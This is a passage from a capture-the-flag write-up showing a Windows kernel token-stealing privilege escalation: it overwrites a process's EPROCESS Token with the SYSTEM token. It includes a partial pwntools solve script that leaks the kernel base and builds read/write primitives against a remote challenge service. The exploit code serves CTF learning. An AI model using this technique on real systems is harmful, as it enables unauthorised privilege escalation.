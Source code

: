 And at this point, we're almost ready to read the flag content, the only thing we need to do is overwrite the Token value from our eprocess with the token value from the system process.

```py
system_token = read_at_va(PsInitialSystemProcess + Token_off)
write_to_va(target_eprocess + Token_off, system_token)
```

Then we just read the flag and we're done.
```py
io.sendline(b'3')
io.interactive()
```

## solve.py

```py
from pwn import *


io = remote('xx.xx.xxx.xx', 4444)

kernel_base = int(io.recvline().decode().split(': ')[1], 16)
process_id: int = int(io.recvline().decode().split(': ')[1])

print('[*] kernel_base:', hex(kernel_base))
print('[*] pid', process_id)


def skip_options():
    io.recvuntil(b'an option\r\n')


def read_at(off: int) -> int:
    assert(off % 8 == 0)

    io.sendline(b'2')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.recvline()
    v = int(io.recvline().decode().split('ead ')[1].strip())

    skip_options()
    return v


def write_to(off: int, val: int) -> None:
    assert(off % 8 == 0)

    io.sendline(b'1')
    io.recvline()
    io.sendline(str(off // 8).encode())
    io.recvline()
    io.sendline(str(val).encode())
    io.recvline()
    io.recvline()

    skip_options()


skip_options()
secret_store_base: int = read_at(64)
print('[*] secret_store_base', hex(secret_store_base))

```
